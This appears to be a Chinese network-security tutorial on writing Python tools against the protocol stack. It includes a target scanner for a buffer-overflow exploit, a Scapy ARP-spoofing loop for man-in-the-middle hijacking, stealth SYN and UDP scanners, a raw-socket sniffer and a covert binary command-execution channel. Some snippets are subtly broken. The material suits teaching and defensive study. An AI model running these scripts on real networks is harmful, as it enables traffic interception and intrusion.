

# 课程 P1：协议栈利用分析与工具编写 🛠️


在本节课中，我们将学习如何深入理解网络协议栈，并利用这些知识来编写自己的安全工具。我们将从基础理论开始，逐步深入到实战案例，包括端口扫描、ARP欺骗、自定义客户端/服务器模型等。


## 理论铺垫 📚


在开始实践之前，我们需要一些理论基础。这些知识将帮助我们理解协议栈的工作原理，从而更好地编写利用工具。


以下是三个核心的理论基础：

1.  **Python语言**：Python拥有丰富的网络模块，可以极大地缩短我们编写底层代码的时间，是学习黑客技术的优秀语言。
2.  **计算机网络**：这门课程详细讲解了TCP/IP等协议的构成、收发机制和同步原理，是理解协议栈不可或缺的知识。
3.  **操作系统组成与原理**：了解多线程、多进程、内存管理和系统API调用等知识，对于编写高效、底层的脚本至关重要。


上一节我们介绍了必要的理论知识，本节中我们来看看第一个实战演示。


## 实战演示一：修改漏洞利用脚本 🔧

第一个演示内容是实战修改一个已有的漏洞利用脚本。原脚本是针对某企业版软件的远程缓冲区溢出漏洞利用工具，但没有扫描功能。我们为其添加了一个扫描模块，使其能够批量检测目标。

以下是扫描函数的核心实现思路：


```python
def scanner(ip):
    # 创建一个基于TCP协议的socket对象
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        # 尝试连接目标IP的特定端口（例如80）
        s.connect((ip, 80))
        # 模拟浏览器发送HTTP请求头部
        s.send(b"GET / HTTP/1.1\r\nHost: %s\r\n\r\n" % ip.encode())
        # 接收返回的页面数据
        response = s.recv(1024)
        # 使用正则表达式从返回数据中提取应用标识（Banner）
        if b"目标应用标识" in response:
            print(f"[+] {ip} 存在漏洞")
            return True
    except:
        print(f"[-] {ip} 连接失败")
    finally:
        s.close()
    return False
```



**核心思想**：通过建立一个TCP连接，模拟正常的HTTP请求，然后分析服务器返回的响应头或页面内容（Banner）来判断目标服务的类型和版本，从而确认其是否受特定漏洞影响。


我们完成了对单个目标漏洞的扫描与利用。接下来，我们将视角从应用层下移到数据链路层，看看如何利用ARP协议进行攻击。

## 实战演示二：从ARP攻击原理到脚本 🕵️♂️

ARP（地址解析协议）攻击基于OSI模型的数据链路层。它通过伪造ARP响应包，欺骗网络中的其他设备，从而实现流量劫持（中间人攻击）。


ARP协议包的关键字段是操作码（OP Code）：
*   `OP = 1`：代表ARP请求（询问“谁的IP是X？请告诉你的MAC”）。
*   `OP = 2`：代表ARP响应（回答“IP X的MAC是Y”）。

攻击脚本的核心是构造一个**虚假的ARP响应包**：

```python
# 构造一个ARP响应包（OP=2）
arp_response = ARP(op=2) # op=2 表示ARP响应
arp_response.psrc = gateway_ip   # 伪造成网关的IP
arp_response.hwsrc = attacker_mac # 但源MAC地址填写攻击者的MAC
arp_response.pdst = victim_ip     # 目标IP是受害者的IP
arp_response.hwdst = victim_mac   # 目标MAC是受害者的MAC

# 持续发送这个伪造的包
send(arp_response, inter=2, loop=1)
```


**攻击原理**：持续向受害者发送“网关IP对应攻击者MAC”的ARP响应包。当受害者的ARP缓存表更新后，它发往网关的流量就会被错误地发送到攻击者的机器上。同理，欺骗网关即可完成双向劫持。

了解了数据链路层的欺骗攻击后，我们回到更常见的网络层和传输层，学习如何编写端口扫描器。


## 实战演示三：UDP端口扫描原理与实现 🔍

端口扫描是信息收集的基础。TCP和UDP扫描的原理截然不同。

*   **TCP扫描（如全连接扫描）**：尝试与目标端口完成TCP三次握手（SYN -> SYN-ACK -> ACK）。如果能建立连接，则端口开放。
*   **UDP扫描**：UDP是无连接的。向目标端口发送一个UDP数据包。
    *   如果收到“ICMP端口不可达”响应，则端口**关闭**。
    *   如果没有收到任何响应，则端口可能**开放**（或被防火墙过滤）。

以下是UDP扫描的简化实现：

```python
def udp_scan(target_ip, port):
    # 创建UDP socket
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.settimeout(3) # 设置超时
    try:
        # 发送一个负载数据
        s.sendto(b"scan_payload", (target_ip, port))
        # 尝试接收响应
        data, addr = s.recvfrom(1024)
        # 如果收到数据，可能是应用层响应（端口开放）
        print(f"[+] {port}/UDP 可能开放 (收到响应)")
    except socket.timeout:
        # 超时，可能端口开放或被过滤
        print(f"[?] {port}/UDP 开放或被过滤")
    except ConnectionRefusedError:
        # 收到ICMP端口不可达（系统可能抛出此异常）
        print(f"[-] {port}/UDP 关闭")
    finally:
        s.close()
```

掌握了主动扫描的技巧后，我们再来学习如何被动地抓取和分析网络中的流量。

## 实战演示四：Socket实现流量抓取与分析 📡

我们可以使用原始套接字（Raw Socket）来抓取流经本机的网络数据包，并解析其协议头。这能帮助我们深入理解协议栈的构成。

以下是一个解析IP包头的示例思路：

```python
# 定义IP头部结构（20字节）
class IPHeader(ctypes.Structure):
    _fields_ = [
        ("ihl_version", ctypes.c_uint8, 4),  # IP头长度
        ("version", ctypes.c_uint8, 4),      # 版本
        ("tos", ctypes.c_uint8),             # 服务类型
        ("tot_len", ctypes.c_uint16),        # 总长度
        ("id", ctypes.c_uint16),             # 标识
        ("frag_off", ctypes.c_uint16),       # 分片偏移
        ("ttl", ctypes.c_uint8),             # 生存时间
        ("protocol", ctypes.c_uint8),        # 协议 (TCP=6, UDP=17)
        ("check", ctypes.c_uint16),          # 校验和
        ("saddr", ctypes.c_uint32),          # 源地址 (网络字节序)
        ("daddr", ctypes.c_uint32),          # 目的地址 (网络字节序)
    ]

# 创建原始套接字，捕获IP包
s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_IP)
while True:
    packet, addr = s.recvfrom(65535)
    # 将前20字节映射到IPHeader结构体
    ip_header = IPHeader.from_buffer_copy(packet[:20])
    # 将网络字节序的地址转换为点分十进制字符串
    src_ip = socket.inet_ntoa(ctypes.c_uint32(ip_header.saddr))
    dst_ip = socket.inet_ntoa(ctypes.c_uint32(ip_header.daddr))
    print(f"来自 {src_ip} 到 {dst_ip}, 协议: {ip_header.protocol}")
```

**关键点**：网络数据在传输时使用**网络字节序（大端序）**，而我们的主机可能是**小端序**。在解析多字节字段（如IP地址）时，必须进行正确的转换。

分析完底层流量，我们向上到应用层，看看如何构建自定义的通信协议。

## 实战演示五：自定义应用层的C/S模型 💬

标准的C/S（客户端/服务器）模型使用明文的、无格式的字符串通信。为了更安全、更可靠，我们可以定义自己的应用层协议格式。

Python的 `struct` 模块可以帮助我们打包和解包二进制数据。我们定义一个简单的协议：一条消息由“命令字符串（10字节）”和“状态码整数（1个int）”组成。

```python
import struct

# 客户端：打包数据并发送
def client_send(command, status):
    # 格式字符串：'10s i' 表示10字节字符串和1个整数
    # 使用网络字节序 ‘!’
    packed_data = struct.pack('!10s i', command.encode(), status)
    sock.send(packed_data)

# 服务端：接收并解包数据
def server_receive(data):
    # 按照约定格式解包
    command, status = struct.unpack('!10s i', data)
    # 去除命令字符串末尾的填充空字符(\x00)
    clean_command = command.decode().strip('\x00')
    print(f"收到命令: {clean_command}, 状态码: {status}")
    if status == 200:
        execute_command(clean_command) # 执行命令
```

**优势**：
1.  **结构化**：双方明确知道数据的每一部分是什么。
2.  **可扩展**：可以轻松添加校验和、加密字段等。
3.  **隐蔽性**：使用二进制格式，比明文更难以直接解读。


从自定义协议回到更基础的扫描技术，我们最后探讨一种更隐蔽的扫描方式。

## 实战演示六：SYN半开放扫描 🚪

全连接扫描（完成三次握手）容易被日志记录。SYN扫描（半开放扫描）则更为隐蔽：
1.  攻击者发送一个SYN包（`flags=0x002`）。
2.  如果目标端口开放，会回复SYN-ACK包（`flags=0x012`）。
3.  攻击者收到SYN-ACK后，不回复最终的ACK，而是直接发送RST包断开连接，从而避免建立完整连接。

使用Scapy构造SYN扫描包：

```python
from scapy.all import IP, TCP, sr1

def syn_scan(target_ip, port):
    # 构造IP层和TCP层数据包
    # TCP flags: S -> SYN, 十进制为2
    pkt = IP(dst=target_ip) / TCP(dport=port, flags="S")
    # 发送包并等待第一个响应
    ans = sr1(pkt, timeout=2, verbose=0)
    if ans:
        if ans.haslayer(TCP):
            # 判断响应包的TCP flags是否为SA (SYN-ACK)
            if ans.getlayer(TCP).flags == 0x12: # SA = SYN+ACK
                print(f"[+] {port} 端口开放")
                # 发送RST包关闭连接
                rst_pkt = IP(dst=target_ip) / TCP(dport=port, flags="R")
                send(rst_pkt, verbose=0)
                return True
    print(f"[-] {port} 端口关闭或过滤")
    return False
```

## 总结 📝

本节课中我们一起学习了网络协议栈的利用分析与工具编写。我们从Python、计算机网络和操作系统的理论基础出发，通过多个实战案例，深入探讨了：

1.  **信息收集**：通过Banner抓取和端口扫描（TCP全连接、UDP、SYN半开放）识别目标。
2.  **网络欺骗**：利用ARP协议原理实现中间人攻击。
3.  **流量分析**：使用原始套接字抓取并解析IP数据包头部。
4.  **协议定制**：构建自定义应用层协议的C/S模型，实现结构化、可加密的通信。
5.  **工具思维**：理解“协议即规范”，只要掌握协议格式，就能用代码构造任何数据包，实现扫描、攻击、检测等功能。


核心在于：**网络协议的本质是约定好的数据格式。只要深入理解这些格式，我们就能“扒开协议栈的衣服”，分析流量、构造数据包，从而编写出功能强大的网络工具。** 推荐结合《计算机网络》、《Python绝技》等书籍进行深入学习和实践。